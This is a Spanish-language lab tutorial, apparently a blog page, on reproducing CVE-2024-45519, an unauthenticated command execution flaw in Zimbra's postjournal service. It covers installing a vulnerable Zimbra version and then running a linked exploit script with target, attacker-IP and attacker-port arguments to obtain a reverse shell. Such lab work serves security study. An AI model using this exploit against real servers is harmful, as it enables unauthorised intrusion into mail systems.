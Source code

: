 ```yaml
---
title: CVE-2024-45519 - Configuración del exploit de Zimbra Postjournal
date: 2024-11-11 09:00:00 
categories: [CIBERSEGURIDAD]
tags: [vulnerabilidad, tools]
description: Permite la ejecución remota de comandos mediante el servicio postjournal
image: /assets/95/preview1.png
---
```


GitHub: [https://github.com/Chocapikk/CVE-2024-45519](https://github.com/Chocapikk/CVE-2024-45519)

CVE-2024-45519 es una vulnerabilidad en Zimbra Collaboration (ZCS) que permite a usuarios no autenticados ejecutar comandos a través del  postjournal servicio.
Esta guía le muestra cómo configurar un entorno de laboratorio para reproducir el problema y ejecutar el exploit.

#### Versiones afectadas

- Joule : versión 8.8.15
- Kepler : versión 9.0.0
- Narciso : versiones 10.0.x anteriores a 10.0.9
- Narciso : versión 10.1.0

#### Configuración del laboratorio

- Prepara el entorno de prueba

Asegúrate de que estés ejecutando Ubuntu 20.04.6 LTS (Focal Fossa) en tu máquina de laboratorio.
Ejemplo de entorno de prueba: Ubuntu 20.04.6 LTS.

- Descargar Zimbra

Ejecute los siguientes comandos para descargar y extraer el paquete Zimbra Collaboration: 

      sudo su
      wget https://files.zimbra.com/downloads/8.8.15_GA/zcs-NETWORK-8.8.15_GA_4177.UBUNTU20_64.20211112014220.tgz
      tar -xvzf zcs-NETWORK-8.8.15_GA_4177.UBUNTU20_64.20211112014220.tgz
      cd zcs-NETWORK-8.8.15_GA_4177.UBUNTU20_64.20211112014220

- Configurar nombre de host

  Establezca el nombre de host en  zimbra.labo: hostnamectl set-hostname zimbra.labo

- Instalar Zimbra

Siga la guía de instalación aquí 👉  [Guía de instalación de Zimbra](https://zimbra.github.io/installguides/latest/single.html#Installing_Zimbra_Collaboration_Software).
Utilice el repositorio de paquetes de Zimbra cuando se le solicite. Seleccione  Sí  para esa opción.

- Postjournal Reemplazar el binario vulnerable

Elimine el  postjournal proceso en ejecución y reemplace el binario con el vulnerable:

      sudo pkill postjournal dpkg-deb -x packages/zimbra-core_8.8.15.GA.4177.UBUNTU20.64_amd64.deb /tmp/zimbra-core
      sudo cp /tmp/zimbra-core/opt/zimbra/libexec/postjournal /opt/zimbra/libexec/postjournal

- Habilitar y reiniciar los servicios de Zimbra

  Inicie sesión como  zimbra usuario y habilite el  postjournal servicio:

      sudo su - zimbra
      zmlocalconfig -e postjournal_enabled=true
      zmcontrol restart

#### Uso de exploits

Una vez que el laboratorio esté configurado y funcionando, puedes usar el exploit para aprovechar la vulnerabilidad.

- Preparar el exploit
  Asegúrese de que el script de exploit (que suponemos que ya ha preparado) apunte a la dirección IP y al puerto correctos.

- Ejecutar el exploit
  Ejecutar el exploit para atacar la instancia de Zimbra vulnerable. Por ejemplo, usando el script:python exploit.py <target> -lh <attacker-ip> -lp <attacker-port> -p <smtp-port>

- Disfruta de tu shell
- Una vez que el exploit se conecte exitosamente, tendrás ejecución de comando en el servidor Zimbra.

#### Referencias

- [Zimbra CVE-2024-45519 - Cyberveille eSante](https://cyberveille.esante.gouv.fr/alertes/zimbra-cve-2024-45519-2024-10-02)
- [Blog de ejecución remota de código de Zimbra - ProjectDiscovery](https://projectdiscovery.io/blog/zimbra-remote-code-execution)

#### Aviso

Este exploit y esta guía son solo para fines educativos. Utilice esta información de manera responsable y solo en sistemas para los que tenga permiso explícito para probar. La explotación no autorizada de sistemas es ilegal y poco ética. Los autores y colaboradores no son responsables de ningún mal uso o daño causado por esta información.


